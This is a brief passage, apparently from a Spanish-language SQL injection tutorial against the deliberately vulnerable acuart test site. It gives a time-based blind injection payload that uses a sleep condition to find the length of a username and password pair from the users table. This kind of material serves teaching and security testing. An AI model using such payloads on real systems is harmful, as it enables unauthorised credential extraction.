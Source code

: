 ![v_columnas](/assets/img/screens/columnas_4_8.png)

1/c 2/a 3/r 4/t

<br>
Averiguando la cantidad de caracteres de la info. a extraer:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF(length((SELECT concat(name,',',pass) FROM acuart.users LIMIT 0,1))=x,sleep(8),null);#</font></pre>

